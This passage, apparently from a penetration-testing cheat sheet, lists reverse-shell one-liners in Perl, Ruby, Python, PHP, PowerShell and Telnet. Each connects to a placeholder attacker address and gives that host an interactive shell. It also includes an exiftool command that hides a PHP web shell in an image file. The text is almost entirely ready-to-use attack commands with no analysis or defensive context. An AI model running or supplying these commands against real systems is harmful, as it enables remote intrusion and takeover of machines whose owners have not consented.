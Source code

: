 * Perl without `/bin/sh`
``` sh
 perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

* Perl for Windows
``` sh
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

* Ruby via `/bin/sh`
``` sh
ruby -rsocket -e'f=TCPSocket.open("<ip>",<port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

* Ruby without `/bin/sh`
``` sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<ip>","<port>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* Ruby for Windows
``` sh
ruby -rsocket -e 'c=TCPSocket.new("<ip>","<port>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* Python via `/bin/sh`
``` sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* PHP via `/bin/sh`
``` sh
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* PHP reverse shell in an image file
``` sh
exiftool -Comment='<?php echo shell_exec($_GET['cmd']); ?>' <outfilename>
```

* PowerShell
```posh
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<target>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* Telnet
``` sh
rm -f /tmp/p; mknod /tmp/p p && telnet <ip> <port> 0/tmp/p
```
